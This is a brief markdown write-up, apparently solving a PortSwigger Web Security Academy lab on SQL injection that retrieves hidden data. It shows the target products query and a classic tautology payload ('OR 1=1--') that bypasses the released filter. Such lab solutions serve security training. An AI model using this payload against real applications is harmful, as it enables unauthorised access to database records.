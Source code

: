 # Lab

https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

## Query

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

## Payload

```sql
'+OR+1=1--
```